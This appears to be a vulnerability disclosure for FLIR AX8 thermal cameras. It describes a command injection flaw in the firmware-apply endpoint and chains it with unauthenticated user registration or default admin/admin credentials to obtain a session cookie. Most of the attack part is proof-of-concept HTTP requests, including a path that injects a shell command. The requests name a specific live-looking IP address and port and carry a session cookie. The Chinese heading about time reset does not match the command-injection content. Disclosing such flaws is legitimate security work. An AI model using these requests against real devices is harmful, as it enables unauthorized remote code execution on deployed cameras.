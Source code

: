 ## 存在未授权时间重置漏洞

#### Description

Command injection vulnerability in /usr/www/application/models/settingscamera.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the value parameter.











### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
POST /settings/setDateTime/2005/3/11/10/11 HTTP/1.1
Host: 222.103.211.89:8004
```

For example

- this cookie must be changed

```
GET /settings/applyfirmware/;id>test123.txt;/false HTTP/1.1
Host: 222.103.211.89:8004
Priority: u=0, i
Accept-Encoding: gzip, deflate
Referer: http://222.103.211.89:8004/
Cookie: theme=light; distanceUnit=metric; temperatureUnit=celsius; showCameraId=false; clientTimeZoneOffset=-480; clientTimeZoneDST=0; PHPSESSID=fede7f79f208effcb87474d02fe6d53d
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```



### Response

```
HTTP/1.1 200 OK
X-Powered-By: PHP/5.4.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-type: text/html
Date: Mon, 11 Feb 2002 09:18:49 GMT
Server: lighttpd/1.4.33
```

![image-1](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172009362.png)

![image-20241002225635281](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172009410.png)



